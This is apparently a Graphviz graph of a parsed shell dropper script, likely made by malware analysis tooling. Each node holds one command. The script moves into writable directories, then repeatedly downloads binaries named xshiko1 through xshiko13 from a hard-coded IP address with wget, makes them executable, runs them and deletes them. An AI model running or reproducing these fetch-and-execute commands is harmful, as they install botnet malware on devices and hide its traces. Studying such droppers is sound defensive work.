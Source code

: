 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="busybox wget http://89.40.122.52/xshiko1 "];
10 -> 12 [label=";,"];
12 [label="wget http://89.40.122.52/xshiko1 "];
12 -> 14 [label=";,"];
14 [label="chmod +x xshiko1 "];
14 -> 16 [label=";,"];
16 [label="./xshiko1 "];
16 -> 18 [label=";,"];
18 [label="rm -rf xshiko1 "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="busybox wget http://89.40.122.52/xshiko2 "];
30 -> 32 [label=";,"];
32 [label="wget http://89.40.122.52/xshiko2 "];
32 -> 34 [label=";,"];
34 [label="chmod +x xshiko2 "];
34 -> 36 [label=";,"];
36 [label="./xshiko2 "];
36 -> 38 [label=";,"];
38 [label="rm -rf xshiko2 "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="busybox wget http://89.40.122.52/xshiko3 "];
50 -> 52 [label=";,"];
52 [label="wget http://89.40.122.52/xshiko3 "];
52 -> 54 [label=";,"];
54 [label="chmod +x xshiko3 "];
54 -> 56 [label=";,"];
56 [label="./xshiko3 "];
56 -> 58 [label=";,"];
58 [label="rm -rf xshiko3 "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="busybox wget http://89.40.122.52/xshiko4 "];
70 -> 72 [label=";,"];
72 [label="wget http://89.40.122.52/xshiko4 "];
72 -> 74 [label=";,"];
74 [label="chmod +x xshiko4 "];
74 -> 76 [label=";,"];
76 [label="./xshiko4 "];
76 -> 78 [label=";,"];
78 [label="rm -rf xshiko4 "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="busybox wget http://89.40.122.52/xshiko5 "];
90 -> 92 [label=";,"];
92 [label="wget http://89.40.122.52/xshiko5 "];
92 -> 94 [label=";,"];
94 [label="chmod +x xshiko5 "];
94 -> 96 [label=";,"];
96 [label="./xshiko5 "];
96 -> 98 [label=";,"];
98 [label="rm -rf xshiko5 "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="busybox wget http://89.40.122.52/xshiko6 "];
110 -> 112 [label=";,"];
112 [label="wget http://89.40.122.52/xshiko6 "];
112 -> 114 [label=";,"];
114 [label="chmod +x xshiko6 "];
114 -> 116 [label=";,"];
116 [label="./xshiko6 "];
116 -> 118 [label=";,"];
118 [label="rm -rf xshiko6 "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="busybox wget http://89.40.122.52/xshiko7 "];
130 -> 132 [label=";,"];
132 [label="wget http://89.40.122.52/xshiko7 "];
132 -> 134 [label=";,"];
134 [label="chmod +x xshiko7 "];
134 -> 136 [label=";,"];
136 [label="./xshiko7 "];
136 -> 138 [label=";,"];
138 [label="rm -rf xshiko7 "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="busybox wget http://89.40.122.52/xshiko8 "];
150 -> 152 [label=";,"];
152 [label="wget http://89.40.122.52/xshiko8 "];
152 -> 154 [label=";,"];
154 [label="chmod +x xshiko8 "];
154 -> 156 [label=";,"];
156 [label="./xshiko8 "];
156 -> 158 [label=";,"];
158 [label="rm -rf xshiko8 "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="busybox wget http://89.40.122.52/xshiko9 "];
170 -> 172 [label=";,"];
172 [label="wget http://89.40.122.52/xshiko9 "];
172 -> 174 [label=";,"];
174 [label="chmod +x xshiko9 "];
174 -> 176 [label=";,"];
176 [label="./xshiko9 "];
176 -> 178 [label=";,"];
178 [label="rm -rf xshiko9 "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="busybox wget http://89.40.122.52/xshiko10 "];
190 -> 192 [label=";,"];
192 [label="wget http://89.40.122.52/xshiko10 "];
192 -> 194 [label=";,"];
194 [label="chmod +x xshiko10 "];
194 -> 196 [label=";,"];
196 [label="./xshiko10 "];
196 -> 198 [label=";,"];
198 [label="rm -rf xshiko10 "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="busybox wget http://89.40.122.52/xshiko11 "];
210 -> 212 [label=";,"];
212 [label="wget http://89.40.122.52/xshiko11 "];
212 -> 214 [label=";,"];
214 [label="chmod +x xshiko11 "];
214 -> 216 [label=";,"];
216 [label="./xshiko11 "];
216 -> 218 [label=";,"];
218 [label="rm -rf xshiko11 "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="busybox wget http://89.40.122.52/xshiko12 "];
230 -> 232 [label=";,"];
232 [label="wget http://89.40.122.52/xshiko12 "];
232 -> 234 [label=";,"];
234 [label="chmod +x xshiko12 "];
234 -> 236 [label=";,"];
236 [label="./xshiko12 "];
236 -> 238 [label=";,"];
238 [label="rm -rf xshiko12 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="busybox wget http://89.40.122.52/xshiko13 "];
250 -> 252 [label=";,"];
252 [label="wget http://89.40.122.52/xshiko13 "];
252 -> 254 [label=";,"];
254 [label="chmod +x xshiko13 "];
254 -> 256 [label=";,"];
256 [label="./xshiko13 "];
256 -> 257 [label=";,"];
}
